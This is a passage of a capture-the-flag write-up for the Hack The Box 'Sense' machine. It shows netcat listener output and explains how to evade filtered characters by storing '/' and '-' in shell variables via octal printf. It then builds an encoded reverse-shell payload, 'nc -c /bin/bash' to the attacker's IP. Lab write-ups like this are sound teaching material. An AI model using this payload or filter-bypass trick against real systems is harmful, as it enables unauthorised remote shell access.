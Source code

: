 ```
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.60] 42727
OLDPWD=/
HOME=/
PHP_FCGI_MAX_REQUESTS=500
PATH=/sbin:/bin:/usr/sbin:/usr/bin:/usr/local/bin:/usr/local/sbin
LANG=en_US.ISO8859-1
PHP_FCGI_CHILDREN=1
PWD=/var/db/rrd
```

Now let's create the environment variable whose value is to print the character /, basically its value would be: ```echo "/"```. But we cannot send the / character through the URL because it is a badchar, so we have to write / in octal, it would be like this: \057
This we can see it from console with the command ```man ascii``` or searching in google a table of octal values, for example [This](https://www-k12.atmos.washington.edu/~ovens/gmt/doc/html/GMT_Docs/node153.html), then to create the environment variable we use the syntax ```newEnvVar=($value-of-the-variable)```, in this case it would be ```bar=$(printf "\057")```
Why printf and not echo? because unlike echo, the printf function can write any combination of numeric values, single characters and strings.
![](/assets/images/htb-writeup-sense/create-first-var.png)

```
root@kali:/#
nc -nlvp 443 
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.60] 2549
/
```

It works! We know that the victim machine has netcat so let's send us a reverse shell with a typical ```nc -c /bin/bash 10.10.14.6 443``` replacing the badchars as seen above.
Then what we have to do is to create two environment variables, one for the / character and one for the -, let's see the practical example:
![](/assets/images/htb-writeup-sense/failed-rshell.png)

To replace the characters by the environment variables could be done manually, but I suggest to do it with utilities like tr or sed as in this case. It is useful to practice hehe.

```
roo@kali:/# echo "nc -c /bin/bash 10.10.14.6 443" | tr ' ' '+' | sed 's/\//${bar}/g' | sed 's/-/${guion}/'

nc+${guion}c+${bar}bin${bar}bash+10.10.14.6+443
```
### Send the reverse shell through BurpSuite
